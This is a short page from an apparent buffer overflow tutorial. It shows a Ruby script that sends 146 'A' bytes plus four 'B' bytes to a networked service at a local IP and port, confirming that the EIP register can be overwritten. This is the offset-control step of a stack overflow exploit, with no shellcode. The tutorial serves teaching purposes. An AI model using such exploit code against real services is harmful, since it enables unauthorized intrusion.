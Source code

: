 Since we know that we can own EIP at 146 bytes, let's give it a try:
```Ruby
buff = "A"*146
buff += "B" * 4
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
![Overwrite EIP](overwriteEIP.png)  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
